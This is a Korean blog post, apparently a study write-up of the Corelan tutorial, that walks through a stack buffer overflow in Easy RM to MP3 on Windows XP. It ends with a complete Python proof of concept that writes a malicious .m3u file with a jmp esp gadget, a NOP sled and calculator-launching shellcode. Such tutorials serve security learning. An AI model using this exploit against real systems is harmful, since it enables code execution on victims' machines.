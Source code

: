```yaml
---
layout: post
title: windows exploit tutorial - Easy RM to MP3
---
```





윈도우 폰




0. Info
----------
corelen 팀의 windows exploit tutorial 문서 part 1 인 Easy RM to MP3프로그램의 stack based overflow 취약점을 이용해 exploit을 해보겠다. os 환경은 window xp sp3 en 에서 진행 하였다. debugger는 windbg를 이용하였다.

![](https://lh4.googleusercontent.com/ZIcdxR1-jprVAu9b47F5fQqiW26GXSSQZLlqFlK0pxXVM_u7v2c9nLy3vKhaixVYB7L2aJncbuzAVCruYf2fh8bIirmCMQtissCqZEqfAnCWLSNsK01wvP30v8bPZ-txkncxH3I2)

  

exploit db에 검색하면 해당 취약점에 대한 정보와 당시 프로그램을 구할 수 있다. 내가 공부한 내용은 2009-07-16 Crazy_Hacker가 발견한 버그이다.

  

1. Vulnerability

----------

.m3u 포멧의 파일을 열 때 stack based overflow 취약점이 발생한다.

  

![](https://lh3.googleusercontent.com/cdQ3kcN9Jl-xJzLhVlyrhP3TcjbHh1ulzxnkeb-MwzUBkEJm5iyXcniDZIDNPZy2ZGi94ZBi8vR0noamKSlqwozzskZPybn-C310bTc295iiqjWiuzMBgResxCjJ4tTp2k6Ogrmr)

  

파이썬을 이용해 “A”를 30000개를 적어준다.

  

이를 Easy RM to MP3로 열게 되면

  

![](https://lh4.googleusercontent.com/nqYshKyZjKSXE3-97ciq9x7YerEG0wVglCVvkhx5v6Ml06MGY9ajkHTiozJUqybWKIU0hMHyrzwKxXooDiHlgKzasWZWfCxrUzmT4_gLUuXIa7Phu3pmBU_HI2vlnjel2AP4Rd2i)

  

크래시가 발생되고 비정상적으로 프로그램이 종료된다.

  

2. exploit

----------

이제 좀 더 정확한 정보를 얻기 위해서 windbg를 이용해서 eip가 덮혔는지 확인 해보겠다. eip가 덮히면 해커의 시나리오 대로 프로그램을 조작할 수 있기 때문에 exploit 가능성이 높아진다.

  

일단 windbg를 post-mortem 으로 등록해야 한다. 이 기능은 자동적으로 프로그램이 crash가 발생하여 비정상적으로 종료가 되면 windbg를 실행시켜 그 정보를 바로 확인 할 수 있게 해준다.

  

windbg가 설치 되어 있는 폴더 에 들어가서 windbg.exe -I 로 설정할 수 있다.

![](https://lh3.googleusercontent.com/g41REbmXii4w88afMS04xZ12VCdaX7d_-g9VAIOGRzUtdWQzqGPuYD4Pyc1W9RYbaDVhxnq5Ewlax2j7Xc0gCM4MuZXZSo1km32fqz124VRioXRcCMsHl2_HEw02OGVGSwJpIeba)

![](https://lh4.googleusercontent.com/dXVssplaFXF1iL07tlUmr4MXaLZEUUfIXWdlU1HMUmfglyzRelWqpS19ode9gwlwSuZT1kPc6DOTanqXZRhG_HXUpBCNQnQT6KCWWeNZYqIDFRdZ_9W6ULLCI3HDqZAqAQDDZbgN)

  

성공적으로 postmortem 으로 등록 되었다.

  
  

다시 한번 carsh.m3u 파일을 실행해보겠다.

  

![](https://lh3.googleusercontent.com/AY9E4YGM-Qs8WyJxUqT_HsYdevolpdenQo_y6qT2sh16bHHHo6UDo1D5Dpd_2pHHa-VqWEAVaFO_4ZB_YOyknWgfzs0tsV8F4CfNVo4n6OPQUZ0kb-4euZkXqWG8Aal_94J2OQK7)

  

crash가 나면서 자동적으로 windbg가 실행되고 레지스터 사이를 보니 eip가 AAAA 41414141로 바뀌어 있다. 즉, stack based overflow를 이용해서 ret을 조작해 eip를 조작할 수 있고, 해커의 시나리오 대로 프로그램을 조작할 수 있게 된다.

  

aslr이 적용 되어 있지 않기 때문에 쉘코드를 스택에 넣고 뛰면 되겠지만 주소에 \x00 바이트를 포함 하고 있어 exploit 할 수 없다.

  

다른 방법을 모색해야 하는데, 바로 jmp esp 가젯을 이용하는 것 이다.

  

(pwnable.kr echo1문제도 jmp esp 가젯을 이용했던 것 같다. 관련 풀이를 보면 왜 이 가젯을 이용하는지 알게 될 거다.)

  

간단하게 설명하자면, 함수 에필로그 leave ; ret ; 에서 ret이 실행 되기 전에 mov esp, ebp 구문이 있다.

  

esp를 ebp로 데려오는데, 그러면 esp는 ret뒤를 가리키게 된다. eip를 jmp esp 가젯을 실행 하면, ret뒤로 뛰게 되는 거다.

  

그러면 payload에서 ret뒤에 shellcode를 위치시키면 shellcode를 실행 할 수 있게 될 것 이다.

  

“jmp esp” 가젯은 .dll 파일에서 찾을 수 있다. .dll파일은 windbg가 로드 될 때 상단에 정보가 보인다.

  

![](https://lh5.googleusercontent.com/tEaaI_QEZnPHHRq8YbPIAc5inj3JjG418e4L8B0iRqsryTLpmKUP0HjsHSJCj1FXxH72H3fGe5ncS-MOfbr384nHOgkHhA05R2ZtBCqtV2RxKBGt_kLTQHNi_Qla_56KPTvqLm0A)

  

system32 에 있는 .dll에서 가젯을 구하면 해당 pc에선 poc가 작동하겠지만 다른 곳에선 poc가 작동 안 할 수 있다. 따라서 프로그램이 자체적으로 가지고 있는 .dll에서 가젯을 구하도록 하겠다.

  

다시 windbg를 실행하고 멀쩡한 easy rm to mp3를 attach 한다. 사용할 .dll은

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

를 사용 할 것이다.

  

![](https://lh5.googleusercontent.com/gChFTiFAoT820hGeoBEtQkVao23IOdbnmNpIgxKkMUJ098UmU36AloD27GqOdCx04PqzsZFMlz0NAGSMA8_LgjOIcnxIVyWvZlA74mAfkuR1GsAMmQJ_Xw0BZ9cg6ojZkBYSHxV7)

  

일단 “jmp esp” 의 opcode를 찾아야 한다.

  

![](https://lh4.googleusercontent.com/dlVn30KEQVtJ7BsTCUJAV8_sXM22b5b-Y6hKthMcGiJKY_-4uvhe6HXMjKcOLkFgY_G1hawGgjiQXXyfBjB96TlmzXCZKONIuaIagSC-WreA8lS8fkoS6aa-qOu59I-NfC7QiBU6)

a(assemble) 를 적고

  

jmp esp를 적는다.

  

그럼 7c901210에 jmp esp가 있는거다.

  

![](https://lh5.googleusercontent.com/yI1mZLaDrLHDIiK3KrQ9naY0rlwqND_P8drLnBEtBMvjXg-lutFezpSUqj1kaQ7artp66IDqcc71GIxGkIvAI0YZzJAFVF7M9j772dcENHHmUrYkS6mim5DTk6sejuHRUO-3CxXJ)

  

ff e4가 jmp esp의 opcode인 것을 확인 할 수 있다.( 사실 pwntool로 구하는 걸 블로그에 올렸었던 것 같지만.. 이 문서에서는 이렇게 소개한다.)

  

이제 dll에서 ff e4를 찾으면 된다.

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

이 dll에서 01c80000 0214d000이게 그 영역인데,

  

![](https://lh3.googleusercontent.com/PZFXbEHTMbc8J_OKgS2oyJFDdzgHvwok_Z7hwbgsfvjKIvTYGkmCau6jSZ7MJfdRRM-GALuJbcjVkzEwgCdV8tJhZ-1VkrwIkXt1sGJd2qTy7GcKuhNv1QNurZdBZSoa5pYCEkRy)

  

이렇게 search 할 수 있다. ff e4의 위치는 0x1e3f23a 이다.

  

생각해보니 ret의 위치를 안 찾았다.

  

메타스플로잇의 tool인 pattern_create.rb, pattern_offset을 이용해서 ret의 위치, offset을 쉽게 구할 수 있다.

  

![](https://lh4.googleusercontent.com/OafX36Bi6K5E7ldKH8Ix0dEznhmcdA7VvLABLIo6YZCmOcrn6wUIXfbqbg4kAZOmrM0KVhK0ciIAap-3XFzivH9LAfr_BUfY7ch2-cXKh_zaslPGK5BVj37fDyLbkWDLzqi4nbx_)

  

이렇게 30000개의 패턴을 뽑은 뒤,

  

.m3u파일에 넣는다.

  

![](https://lh4.googleusercontent.com/OeXyCSv6MlFMnB_9PzBCqegdEiG2MTyLlJsioLYB_PLkFury0BND38dsu4vY6nge0ZlnNAdRJQl1QoxrhL9nhKF3gAgvGLRmJwRFwhkn1cl5nzC2iH8Jyb18gmLdKUA62lnxLqZa)

  

생성 된 파일을 실행시켜 crash를 낸다.

  

windbg가 실행되면서 eip가 조작 되었을거다.

  

![](https://lh5.googleusercontent.com/O7teTfnP8HUoUCabBvasigwyTNKOAogTVz1L5OsD8293BvNn0MPXDv2GuMFxqrLcM5SJzcL8bhglGoY8LeCkswcORL4_uXxPnBFiMsVi397YR0-pA_rYKuFA3aeEwbWF6W21c-BO)

  

eip 0x48386b48이 적혀있다.

  

![](https://lh3.googleusercontent.com/CmM-1elm22MagOn0KsqFpBh358L8_-J-PS8UVL8AihtgdS-CmIF0kaUvn9qFPbpSJS-8Eiiv1S8rm3VO_etPMifNnjTTpnSxQOuxjER7oG-m_HMlGgi7QTDjF7s4Fz_QcERf4wUf)

  

이렇게 ./pattern_offset.rb [eip] [create 한 byte길이] 를 실행하면

  

![](https://lh4.googleusercontent.com/StDB55DtoRqr1RiD9vsPTz1nDWIykXaiWuU_u9J7WceRNMPuQc4evtnHmik9Hm7ifQKhlYD_395AifbZBaJNGfvsoJ6egaRwsz_RhB7GPR7JFMJvR_z5jVWzEeQeC3lGdaaeiOc9)

5784 부분과 26064부분이라고 나오는데 우리는 20000이상이니깐 26064부터 4바이트가 ret위치라는 것을 알 수 있다.

  

이제 바로 poc를 작성 해보겠다.

  

3. poc

----------

  ```python
  f =  open("C:\\Documents and Settings\\Administrator\\Desktop\\crash.m3u", "w")

gadget =  "\x3a\xf2\xd2\x01"

shellcode =  "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"  +"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"  +"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"  +"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"  +"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"  +"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"  +"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"  +"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"  +"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"  +"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"  +"\x7f\xe8\x7b\xca"

payload =  "A"*26064

payload += gadget

payload +=  "\x90"*50

payload += shellcode

payload +=  "\x90"*50

f.write(payload)

f.close()
```


  

사용한 쉘코드는 계산기를 띄우는 쉘코드이다.

  

생성된 crash.m3u를 실행 하게 되면

![](https://lh6.googleusercontent.com/SDdZuu6i1m-iaNLPukrxwUpBIiLEWNNDuB2s_40dNdH7yQOhRVuk7m_-x5a1xjC5EoBaV_1X80fS_YhFBrlGTYorv2egOzZAvJIkktoZcT0063TigeOGqMzPZUSj9EXBue38m7AJ)

  

성공적으로 계산기가 실행되었다.
